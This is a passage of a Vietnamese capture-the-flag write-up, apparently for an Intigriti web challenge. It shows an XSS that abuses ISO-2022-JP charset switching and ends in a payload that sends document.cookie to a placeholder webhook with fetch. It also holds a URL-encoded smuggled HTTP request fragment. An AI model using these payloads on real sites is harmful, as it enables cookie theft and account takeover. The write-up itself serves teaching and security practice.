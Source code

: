 ```flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadmin```

* Vậy ý tưởng của mình là sẽ spam cho bộ ISO-JP-2022 lên để chuyển đổi. Nhưng bằng cách nào? thì như hình trên chỉ cần trong web có các ký tự <esc>(B, <esc>(J, <esc>\$@, <esc>\$B là sẽ boost được điểm của ISO-JP-2022. Các ký tự trên là escape character để chuyển đổi các bộ charsets. Từ đó ý tưởng của mình là swap 2 bộ charset liên tục sao cho tăng điẻm lên nhưng ở đây phải sử dụng <esc>(B cuối cùng để sử dụng ASCII. Qua đó mình có thể truyền vào payload sau để boost ở dây mình xài <esc>\$@

`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id=">
`

Sau khi sử dụng payload trên thì mình đã chuyển đổi được encoding sang ISO-JP-2022


    
![image](https://hackmd.io/_uploads/r1XGjM1Skl.png)

Kết hợp với payload XSS trên thì mình có payload sau 
    
`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="><img src=a onerror=alert(1)>">
`

Nhập vào và mình đã thành công XSS trang web và cho nó hiện alert(1)
    
![image](https://hackmd.io/_uploads/SywJpMyHJl.png)

Tiếp theo công việc đơn giản là report link đã được thêm vào fetch webhook để lấy cookie thôi
    
![image](https://hackmd.io/_uploads/rkHClQkHJg.png)

Và đây là payload của mình

`
<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="%1B$@"></a>%1B(B<a id="><img src=a onerror=fetch('<Webhook-url>'%2bdocument.cookie)>">
`

Sau khi mình report thì đã có flag

![image](https://hackmd.io/_uploads/SJAYxXkHye.png)

Flag : INTIGRITI{fake_flag}  

## Global backups

#### Source

https://drive.google.com/file/d/1ebnv59RbD2QY_U5_oEidI4gOXx9M_rlA/view?usp=sharing

```